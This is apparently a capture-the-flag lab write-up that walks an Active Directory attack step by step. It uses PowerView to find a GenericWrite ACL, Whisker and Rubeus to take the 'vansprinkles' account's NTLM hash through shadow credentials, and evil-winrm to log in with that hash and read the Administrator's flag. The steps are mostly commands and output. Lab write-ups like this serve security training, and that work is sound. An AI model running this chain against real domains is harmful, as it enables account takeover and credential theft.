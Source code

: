 ```powershell
. .\PowerView.ps1
Find-InterestingDomainAcl -ResolveGuids | Where-Object {$_.IdentityReferenceName -eq "hr"} | Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights
```


IdentityReferenceName ObjectDN                                                    ActiveDirectoryRights
--------------------- --------                                                    ---------------------
hr                    CN=vansprinkles,CN=Users,DC=AOC,DC=local ListChildren, ReadProperty, GenericWrite


hr user has GenericWrite on vansprinkles.

```powershell
.\Whisker.exe add /target:vansprinkles
```

Run generated Rubeus.exe command


[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 03E805D8A8C5AA435FB48832DAD620E3

Use Evil-WinRM to login as vansprinkles user

```bash
evil-winrm -i 10.10.113.138 -u vansprinkles -H 03E805D8A8C5AA435FB48832DAD620E3
```

# Hash of vulnerable user
03E805D8A8C5AA435FB48832DAD620E3

# Contents of flag.txt on Administrator's Desktop
```powershell
cd C:\Users\Administrator\Desktop
type flag.txt
```
THM{XMAS_IS_SAFE}
